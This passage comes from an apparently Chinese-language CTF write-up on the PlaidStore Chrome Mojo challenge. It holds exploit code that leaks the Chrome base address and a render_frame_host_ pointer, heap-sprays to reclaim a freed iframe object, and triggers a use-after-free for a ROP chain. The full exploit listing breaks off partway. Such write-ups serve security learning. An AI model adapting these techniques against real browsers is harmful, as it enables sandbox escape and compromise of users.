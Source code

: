```html
				let h = u64[j]&BigInt(0x000000000fff)
				if((l==BigInt(0x500000000000))&&h==BigInt(0x7a0)){
					chromeBase = u64[j]-BigInt(0x9fb67a0);
					renderFrameHost = u64[j+1];
					break;
				}
			}
		}
		window.chromeBase = chromeBase;
		window.renderFrameHost = renderFrameHost;
		window.p = p;
		return chromeBase!=0&&renderFrameHost!=0;
	}
	</script>
    </body>
</html>
```

泄露出的render_frame_host_ 地址用于填充rop 链，即frame_addr。

b、释放iframe

```html
frame.remove();
```

c、进行堆喷，重新获得释放的对象

```javascript
for(let i = 0;i< 0x400;i++){    // 堆喷重新获得之前释放的render_frame_host_堆块
	await p.storeData("bruh"+i,frameData8);
}
```

d、触发漏洞

```javascript
await frameStore.getData("yeet0",0); // 触发render_frame_host_->IsRenderFrameLive()
```



exp 代码：

```html
<!DOCTYPE html>
<html>
    <head>
        <style>
            body {
              font-family: monospace;
            }
        </style>
    </head>
    <body>
        <script src="mojo/public/js/mojo_bindings_lite.js"></script>
        <script src="third_party/blink/public/mojom/plaidstore/plaidstore.mojom-lite.js"></script>
	<script> 
	async function a() {
        // 泄露chrome基地址
		var stores = [];
		let p = blink.mojom.PlaidStore.getRemote(true);
		for(let i = 0;i< 0x40; i++ ){
			await p.storeData("yeet"+i,new Uint8Array(0x28).fill(0x41));
			stores[i] = blink.mojom.PlaidStore.getRemote(true);
		}
		let chromeBase = 0;
		let renderFrameHost = 0;
		for(let i = 0;i<0x40&&chromeBase==0;i++){
```